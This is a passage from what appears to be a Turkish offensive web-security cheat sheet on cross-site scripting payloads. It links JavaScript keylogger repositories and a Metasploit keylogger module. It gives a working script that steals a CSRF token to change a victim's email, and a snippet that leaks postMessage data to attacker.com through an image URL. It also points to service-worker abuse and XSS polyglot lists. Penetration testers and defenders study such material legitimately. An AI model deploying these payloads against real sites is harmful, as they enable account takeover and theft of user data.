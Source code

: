 ### Keylogger

GitHub'da arama yaparak birkaç farklı tane buldum:

- [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
- [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
- [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
- Ayrıca metasploit `http_javascript_keylogger` kullanabilirsiniz.

### CSRF tokenlarını çalmak
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/email/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
### PostMessage mesajlarını çalmak
```markup
<img src="https://attacker.com/?" id=message>
<script>
window.onmessage = function(e){
document.getElementById("message").src += "&"+e.data;
</script>
```
### Servis Çalışanlarını Kötüye Kullanma

{{#ref}}
abusing-service-workers.md
{{#endref}}

### Gölge DOM'a Erişim

{{#ref}}
shadow-dom.md
{{#endref}}

### Poliglotlar

{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt
{{#endref}}
